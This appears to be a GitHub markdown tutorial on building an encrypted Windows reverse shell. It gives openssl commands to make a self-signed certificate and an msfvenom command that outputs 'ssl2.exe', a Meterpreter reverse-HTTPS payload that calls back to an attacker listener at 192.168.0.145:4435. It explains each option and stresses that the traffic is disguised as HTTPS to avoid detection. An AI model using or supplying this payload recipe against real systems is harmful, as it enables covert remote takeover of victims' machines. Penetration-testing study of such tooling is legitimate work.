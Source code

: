 
# 🔒 Encrypted Reverse Shell Payload with HTTPS + SSL Certificate  

## 🎯 Goal  
We want to create a **reverse shell payload** that connects back to our Kali machine over **HTTPS** using **SSL encryption**.  
This makes the connection look like normal web traffic (harder to detect) and ensures data is **encrypted** between attacker and victim.  

---

## Step 1: Generate SSL Certificates  


openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 -keyout key.pem -out cert.pem


### 🔍 Breakdown of Options:

* **openssl req** → Start an X.509 certificate request/generation.
* **-new** → Create a new certificate request.
* **-newkey rsa:4096** → Generate a new RSA private key of size 4096 bits.
* **-days 365** → Valid for 365 days (1 year).
* **-nodes** → Do not encrypt the private key (no password required to use it).
* **-x509** → Create a self-signed certificate instead of a signing request.
* **-keyout key.pem** → Save the private key to `key.pem`.
* **-out cert.pem** → Save the certificate to `cert.pem`.

👉 This creates:

* `key.pem` = Private key.
* `cert.pem` = SSL certificate.

```bash
cat key.pem cert.pem > combined.pem
```

* **cat** → Concatenates files.
* This merges the private key and certificate into **one file (`combined.pem`)**.
* Metasploit needs a single combined certificate for the handler.

---

## Step 2: Create Encrypted Payload with msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.145 LPORT=4435 \
PayloadUUIDTracking=true HandlerSSLCert=/root/combined.pem StagerVerifySSLCert=true \
-f exe -o ssl2.exe
```

### 🔍 Breakdown of Options:

* **msfvenom** → Tool to generate exploit payloads.

* **-p windows/x64/meterpreter/reverse\_https**

  * Payload type = 64-bit Windows Meterpreter.
  * Communication protocol = reverse HTTPS (encrypted).

* **LHOST=192.168.0.145** → Attacker’s IP (listener/your Kali machine).

* **LPORT=4435** → Port on Kali to receive the connection.

* **PayloadUUIDTracking=true** → Assigns a unique ID to the payload so Metasploit can track and log usage.

* **HandlerSSLCert=/root/combined.pem** → Use the SSL certificate we generated for encryption.

* **StagerVerifySSLCert=true** → Victim verifies the SSL certificate before connecting (prevents MITM attacks).

* **-f exe** → Output format = Windows executable (.exe).

* **-o ssl2.exe** → Save the payload as `ssl2.exe`.

👉 This command produces an **encrypted Windows payload** (`ssl2.exe`) that, when executed on the target, creates a secure Meterpreter reverse shell over HTTPS.

---

## ✅ What This Command Does

1. Builds a Windows executable (`ssl2.exe`).
2. When run on the victim machine:

   * It initiates a **reverse connection** to Kali (`192.168.0.145:4435`).
   * The traffic is encrypted using **SSL (combined.pem certificate)**.
   * The session runs inside a **Meterpreter shell**.
3. This makes the payload:

   * **Harder to detect** (looks like HTTPS web traffic).
   * **Encrypted**, so traffic is not readable.
   * **Safer for testing**, since it checks SSL certificates.


